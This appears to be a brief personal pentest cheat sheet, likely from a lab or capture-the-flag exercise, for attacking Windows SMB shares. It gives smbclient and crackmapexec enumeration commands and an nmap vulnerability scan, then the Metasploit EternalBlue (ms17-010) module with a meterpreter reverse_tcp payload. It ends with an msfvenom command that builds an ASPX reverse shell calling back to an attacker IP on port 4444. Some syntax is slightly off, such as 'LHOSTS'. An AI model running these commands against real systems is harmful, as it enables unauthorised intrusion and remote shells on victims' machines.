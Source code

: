 

smbclient -L //10.10.63.70/

smbclient  //10.10.63.70/sharename

smbclient  //10.10.63.70/sharename -u Bob


crackmapexec smb 10.10.63.70 -u 'guest' -p ''  --shares



nmap -p 445 --script vuln -Pn -T4 -v 10.10.63.70


get remotefilename
put localfilename

## Eternal Blue (ms17-010)

#### msfconsole

windows/smb/ms17_010_eternalblue
set RHOSTS victim_ip
set LHOSTS attacker_ip
set payload windows/x64/meterpreter/reverse_tcp
run

------------------
generate this shell and upload to smb and try to access throgh web


msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.68.184 LPORT=4444 -f aspx -o exploit.aspx



----



